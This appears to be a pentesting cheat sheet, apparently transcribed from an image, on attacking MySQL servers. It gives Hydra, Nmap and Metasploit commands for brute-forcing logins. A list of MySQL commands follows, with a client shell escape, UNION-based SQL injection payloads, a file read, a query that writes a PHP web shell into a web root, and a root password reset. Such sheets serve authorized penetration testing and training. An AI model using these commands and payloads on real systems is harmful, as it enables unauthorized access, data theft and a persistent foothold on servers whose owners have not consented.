 ## Bruteforcing with Hydra
To use Hydra for brute-forcing MySQL login credentials, you would use a command structured for this purpose:
```
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S port] mysql://X.X.X.X
```
## Bruteforcing with Nmap
It is also possible to perform brute force on MySQL with Nmap scripts:
```
nmap -p 3306 --script mysql-brute X.X.X.X
```
## Bruteforcing with Metasploit
It is also possible to apply brute force with Metasploit modules on MySQL:
```
use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) > set rhosts X.X.X.X
msf auxiliary(scanner/mysql/mysql_login) > set user_file /path/to/user.txt
msf auxiliary(scanner/mysql/mysql_login) > set pass_file /path/to/pass.txt
msf auxiliary(scanner/mysql/mysql_login) > set stop_on_success true
msf auxiliary(scanner/mysql/mysql_login) > exploit
```
## **MySQL commands**

```bash
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;

select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```
